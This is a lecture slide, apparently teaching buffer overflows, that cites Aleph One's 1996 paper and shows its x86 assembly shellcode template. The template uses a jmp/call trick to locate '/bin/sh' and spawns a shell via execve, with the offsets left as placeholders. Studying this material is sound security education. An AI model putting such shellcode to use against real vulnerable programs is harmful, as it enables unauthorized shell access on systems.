

# Smashing the Stack for Fun and Profit (Aleph One, 1996)
jmp offset-to-call
popl %esi
movl %esi,array-offset(%esi)
movb $0x0,nullbyteoffset(%esi)
movl $0x0,null-offset(%esi)
movl $0xb,%eax
movl %esi,%ebx
leal array-offset(%esi),%ecx
leal null-offset(%esi),%edx
int $0x80
movl $0x1, %eax
movl $0x0, %ebx
int $0x80
call offset-to-popl
.string \”/bin/sh\”
Obtaining the effective address of
the string “/bin/sh”